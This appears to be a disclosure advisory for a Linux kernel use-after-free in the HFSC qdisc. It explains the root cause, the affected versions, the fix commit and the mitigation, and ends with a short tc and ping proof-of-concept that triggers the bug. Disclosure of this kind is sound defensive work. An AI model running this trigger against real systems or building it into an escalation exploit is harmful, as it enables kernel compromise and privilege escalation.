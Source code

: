 ## Vulnerability Details

There is a use-after-free in the traffic control system's HFSC qdisc when a HFSC class with link-sharing has a parent without link-sharing. When a packet is enqueued at the the child class, `init_vf()` will call `vttree_insert()` on the parent. However, when the packet is dequeued, `vttree_remove()` will be skipped in `update_vf()` since the parent does not have the `HFSC_FSC` flag set. This leaves a dangling pointer which can be exploited to cause a use-after-free and achieve privilege escalation.

The vulnerability has been present since the HFSC qdisc was introduced in kernel version 2.6.3. It was fixed in version 6.5 with commit `b3d26c5702c7 ("net/sched: sch_hfsc: Ensure inner classes have fsc curve")`. This commit made it impossible for classes without link-sharing curves to become parents, since only inner classes with link-sharing curves are meaningful in the HFSC protocol.

Triggering the vulnerability requires `CONFIG_NET_SCH_HFSC` to be enabled in the kernel configuration. The user must have the `CAP_NET_ADMIN` capability to trigger the vulnerability, which can be gained with access to unprivileged user namespaces. Disabling unprivileged user namespaces prevents the vulnerability from being exploited for privilege escalation.

## POC
```
# Set lo up
ip link set lo up

# Create the HFSC qdisc and root class.
tc qdisc add dev lo parent root handle 1: hfsc def 2

# Add a real-time class as a child of root class.
tc class add dev lo parent 1: classid 1:1 hfsc rt umax 1 dmax 1 rate 1

# Add a link-sharing class as a child of the real-time class.
tc class add dev lo parent 1:1 classid 1:2 hfsc ls umax 1 dmax 1 rate 1

# Enqueue packet at link-sharing class, which calls init_vf() on it.
ping -c1 localhost

# Delete the parent and child classes, leaving a dangling pointer.
tc class del dev lo classid 1:2
tc class del dev lo classid 1:1

# Add a link-sharing class to enqueue packets to (if the queue is empty, hfsc_dequeue() will return before reaching the UaF)
tc class add dev lo parent 1: classid 1:2 hfsc ls umax 1 dmax 1 rate 1

# Trigger use after free in hfsc_dequeue()
ping -c1 localhost
```